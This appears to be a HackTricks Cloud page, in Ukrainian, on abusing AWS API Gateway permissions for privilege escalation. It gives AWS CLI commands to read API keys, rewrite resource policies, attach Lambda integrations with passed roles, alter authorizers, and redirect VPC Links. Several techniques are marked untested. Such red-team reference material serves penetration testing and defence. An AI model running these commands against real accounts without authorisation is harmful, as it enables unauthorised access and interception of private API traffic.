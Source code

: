 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

З цим дозволом ви можете генерувати ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway create-api-key
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:GET`

З цією дозволом ви можете отримати згенеровані ключі API конфігурованих API (по регіону).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

З цими дозволами можливо змінити політику ресурсу API, щоб надати собі доступ до його виклику та зловживати потенційним доступом, який може мати API gateway (наприклад, виклик вразливої lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Потенційний вплив:** Зазвичай ви не зможете підвищити привілеї безпосередньо за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволами `apigateway:PutIntegration`, `apigateway:CreateDeployment` та `iam:PassRole` може **додати нову інтеграцію до існуючого API Gateway REST API з функцією Lambda, до якої прикріплено IAM роль**. Зловмисник може потім **викликати функцію Lambda для виконання довільного коду і потенційно отримати доступ до ресурсів, пов'язаних з IAM роллю**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Доступ до ресурсів, пов'язаних з IAM роллю функції Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:UpdateAuthorizer` та `apigateway:CreateDeployment` може **модифікувати існуючий авторизатор API Gateway**, щоб обійти перевірки безпеки або виконати довільний код під час виконання запитів до API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Обхід перевірок безпеки, несанкціонований доступ до ресурсів API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволом `apigateway:UpdateVpcLink` може **змінити існуюче VPC Link, щоб вказати на інший Network Load Balancer, потенційно перенаправляючи приватний API-трафік на несанкціоновані або шкідливі ресурси**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Потенційний вплив**: Несанкціонований доступ до приватних ресурсів API, перехоплення або порушення трафіку API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
